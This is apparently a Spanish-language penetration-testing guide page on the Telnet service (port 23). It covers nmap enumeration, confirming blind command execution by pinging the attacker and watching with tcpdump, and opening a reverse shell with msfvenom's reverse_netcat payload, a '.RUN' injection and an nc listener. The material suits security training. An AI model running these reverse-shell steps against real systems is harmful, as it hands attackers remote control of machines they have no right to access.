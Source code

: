 ```yaml
---
description: explotar servicio de shell remota TELNET.
---
```


# 23 - TELNET

## INFORMACIÓN BÁSICA

Telnet permite el control remoto de los ordenadores por medio de entradas y salidas basadas en texto. Con este objetivo, se crea una **conexión cliente-servidor** a través del puerto 23/TCP, donde el dispositivo controlado ejerce de servidor y espera a los comandos pertinentes. La instancia cliente es la que controla el proceso.

La conexión a través de este servicio es insegura ya que todos los datos se transmiten en texto claro.

La sintaxis para su uso es realmente sencilla:

```
telnet <IP> <PUERTO>
```

## ENUMERACIÓN

La enumeración de este servicio se puede hacer a través de nmap utilizando el siguiente escaneo:

```
nmap -p <PUERTO> -sV --script="*telnet* and safe" <IP>
```

## EXPLOTACIÓN

### No hay feedback en la TTY

Una vez conectado al servicio, puede darse el caso de que no obtengamos feedback de los comandos que lanzamos. Para comprobar si realmente tenemos control sobre la victima podemos hacer lo siguiente:

#### 1. Ejecutar un tcpdump en el atacante

De esta manera vamos a monitorizar todas las trazas ICMP que lleguen a mi ordenador atacante:

```bash
sudo tcpdump ip proto \\icmp -i <INTERFAZ>
```

#### 2. Intentar lanzar una traza ICMP desde la victima.

Desde la victima intentamos lanzar una traza ICMP al atacante para monitorizarlo con tcpdump:

```
.RUN ping <IP ATACANTE> -c 1
```

Si esto funciona, significa que nuestra conexión funciona a la perfección.

### Reverse Shell con msfvenom:

Para ejecutar una reverse shell desde una conexión TELNET, es necesario hacerla a través de netcat en la victima, para ello podemos utilizar msfvenom:

```
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

Y el resultado de este comando lo pasamos a la victima precedido de .RUN:

```
.RUN <mkfifo ...>
```

Para que todo esto funcione tenemos que tener nc a la escucha por ese puerto en la maquina atacante:

```
rlwrap nc -lvnp 4444
```
